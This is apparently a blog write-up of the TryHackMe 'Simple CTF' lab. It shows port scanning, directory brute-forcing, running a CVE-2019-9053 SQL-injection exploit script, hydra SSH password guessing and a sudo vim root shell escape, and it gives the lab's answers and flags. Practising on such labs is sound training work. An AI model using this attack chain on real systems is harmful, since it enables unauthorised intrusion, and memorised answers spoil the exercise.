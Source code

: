 ```yaml
---
author: Chance Johnson
date: 2023-03-31
description: A beginner friendly CTF by MrSeth6797 on TryHackMe.
layout: post
title: Simple CTF
---
```

[Simple CTF](https://tryhackme.com/room/easyctf) is a beginner friendly CTF on TryHackMe by MrSeth6797. I will be using Kali Linux.

# 1. How many services are running under port 1000?
I executed the following Nmap command to scan for both UDP and TCP services on this port:
```
sudo nmap -sS -sU -p1000 10.10.214.207
```

This tells me the following two services are running:
```
1000/tcp filtered      cadlock
1000/udp open|filtered ock
```

**Answer**: 2

### 2. What is running on the higher port?
[By default, Nmap scans the top 1,000 ports](By default, Nmap scans the top 1,000 ports for each scan protocol requested.), so there's a good chance the following command will tell me which service is listening to the highest port number:
```
nmap 10.10.214.207
```

Output:
```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

The scan tells us an [EtherNet/IP](https://en.wikipedia.org/wiki/EtherNet/IP) service is listening on `2222/tcp`. Nmap uses its [`nmap-services`](https://nmap.org/book/nmap-services.html) database to determine which services correspond to which port numbers. As you probably already know, applications can be configured to listen to any desired port number. Therefore, this information is not always reliable.

I'll investigate further with a version detection scan:
```
nmap -sV -p2222 10.10.214.207
```

Output:
```
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

An Nmap [version detection](https://nmap.org/book/man-version-detection.html) scan uses the [`nmap-service-probes`](https://nmap.org/book/nmap-service-probes.html) database to determine what program is listening on a port. As you can see in the output above, Nmap has determined that an SSH server is listening on that port.

**Answer**: ssh

# 3. What's the CVE you're using against the application?
At first, I used the Nmap [vulners](https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/vulners.nse) script to list CVEs for the services listening on the open ports I had already discovered:
```
sudo nmap -sV -sS -sU -p21,80,2222,1000 --script=vulners 10.10.214.207
```

This produced an extensive list of CVEs, so I decided to go a different route and do some more enumeration.

I'll start by performing a version scan on `80/tcp`:
```
nmap -sV -p80 10.10.214.207
```

Output:
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

It appears an Apache HTTP server is listening to this port, so I will use `gobuster` to find some common directories:
```
gobuster dir -u http://10.10.214.207/ -w /usr/share/wordlists/dirb/common.txt
```

The following resources were found:
```
/.htpasswd
/.hta
/.htaccess
/index.html
/robots.txt
/server-status
/simple
```

I opened up Firefox and navigated to `http://10.10.214.207/simple`. It appeared to be an installation page for [CMS Made Simple](https://www.cmsmadesimple.org/). At the bottom of the page there was a version number: `2.2.8`.

A Google search for `cms made simple 2.2.8 cve` lead me to [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053).

**Answer**: CVE-2019-9053

# 4. To what kind of vulnerability is the application vulnerable?
CVE-2019-9053 is recorded as an SQL injection vulnerability.

**Answer**: SQLi

# 5. What's the password?
I found [this](https://github.com/e-renna/CVE-2019-9053) Python script online for exploiting the CVE. Using this script, I ran the following command:
```
python3 exploit.py -u http://10.10.214.207/simple/
```

Output:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

It would appear the found password is a hash of the original password and the salt. This isn't very useful, however it does list the username "mitch".

I'll attempt to login to that SSH server listening on `2222/tcp`:
```
hydra -s 2222 -l mitch -P /usr/share/wordlists/john.lst -t 4 10.10.214.207 ssh
```

The output of this command indicates the password is "secret". 

**Answer**: secret


# 6. Where can you login with the details obtained?
Obviously, the SSH server.

**Answer**: SSH

# 7. What's the user flag?
I logged into the SSH server with the newly found credentials, and found a "user.txt" file. The contents of the file read "G00d j0b, keep up!".

**Answer**: G00d j0b, keep up!

# 8. Is there any other user in the home directory? What's its name?
There was a directory named "sunbath" in the "/home" directory.

**Answer**: sunbath

# 9. What can you leverage to spawn a privileged shell?
I got stuck on this for a while. There weren't any more files in the user's home directory, and I wasn't able to perform many commands as sudo. I finally remembered to list which sudo commands can be performed:
```
sudo -l
```

Output:
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

It looks like I can use vim to run commands as the root user.

**Answer**: vim

# 10. What's the root flag?
I ran vim as sudo, and in vim I entered the following:
```
:!ls /root
```

This showed a `flag.txt` file. All that was left to do was print the contents of this file via vim:
```
:!cat /root/flag.txt
```

**Answer**: W3ll d0n3. You made it!


